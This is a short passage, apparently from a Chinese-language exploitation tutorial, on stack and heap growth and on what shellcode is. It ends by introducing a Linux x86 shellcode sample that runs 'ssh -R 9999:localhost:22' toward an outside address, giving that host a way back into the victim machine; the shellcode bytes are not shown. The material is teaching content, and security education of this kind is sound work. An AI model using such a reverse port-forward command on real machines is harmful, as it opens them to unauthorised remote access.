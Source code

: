 ![](img/00016.jpeg)

看看**堆**和**堆**是如何增长的；**堆栈**从**高内存**增长到**低内存**，而**堆**从**低内存**增长到**高内存**。

# 什么是 Shellcode？

Shellcode 类似于用机器语言编写的溢出攻击中使用的有效负载。因此，Shellcode 用于在利用易受攻击的进程后覆盖执行流，例如使受害者的机器连接回您以生成外壳。

下一个示例是 Linux x86 SSH 远程端口转发的 Shellcode，它执行`ssh -R 9999:localhost:22 192.168.0.226`命令：
